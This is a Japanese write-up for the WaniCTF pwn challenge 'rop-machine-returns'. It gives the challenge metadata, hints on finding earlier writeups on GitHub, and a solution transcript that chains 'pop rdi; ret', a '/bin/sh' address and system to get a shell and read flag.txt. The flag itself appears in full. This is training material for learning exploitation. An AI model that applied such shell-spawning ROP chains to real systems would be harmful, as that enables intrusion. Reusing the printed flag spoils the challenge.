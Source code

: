 ```yaml
---
title: rop-machine-returns
level: 2
flag: FLAG{please-learn-how-to-use-rop-machine}
writer: saru
badge: true
---
```



# rop-machine-returns [pwn]
## 問題文

```
nc rop-machine-returns.pwn.wanictf.org 9004
```

### ヒント

+ 「参考になるwriteupを探す練習」用の問題です。
+ CTFではwriteupを探すと過去の問題で参考になる情報が載っているページがあったりすることが多く、それを読みながら少しずつ自分の技術力を高めていきます。
+ rop-machineを使った問題はWaniCTF'21-springでも出しています。
+ githubで`wanictf rop writeup`で検索すると何か出てくるかもしれません。
+ rop machineの使い方->[wani-hackase/rop-machine](https://github.com/wani-hackase/rop-machine/)


## 解法

writeupを探すときにgithubの中を直接探す方法もあるよ、ということを伝えるために作った問題です。
writeupを書くのは結構大変なのですが、solverのコードだけgithubで公開している人も結構多いです。
そしてgithubの情報って意外にGoogleでは引っかかり辛い感覚があるのでgithubを直接検索するのがお薦めです。
今回の場合、[wanictf21spring-writeup/pwn](https://github.com/wani-hackase/wanictf21spring-writeup/tree/b6888c5d23e28935e4729d46e47502bef89a5481/pwn)あたりが引っかかるかと思います。
今回はrop-machine-finalにチャレンジしてもらうための前準備のために入れました。

```
$ nc rop-machine-returns.pwn.wanictf.org 9004
welcome to rop-machine-returns!!!

"/bin/sh" address is 0x404070

[menu]
1. append hex value
2. append "pop rdi; ret" addr
3. append "system" addr
8. show menu (this one)
9. show rop_arena
0. execute rop
> 2
"pop rdi; ret" is appended
> 1
hex value?: 404070
0x0000000000404070 is appended
> 3
"system" is appended
> 0
     rop_arena
+--------------------+
| pop rdi; ret       |<- rop start
+--------------------+
| 0x0000000000404070 |
+--------------------+
| system             |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{please-learn-how-to-use-rop-machine}
```

より詳細な解説はWaniCTF'21-springの[rop-machine-easy](https://github.com/wani-hackase/wanictf21s-challenge/tree/13da0b8db952e543523e5ca4995222fc924c3cbe/pwn/03-rop-machine-easy)のwriteupをご参照下さい。
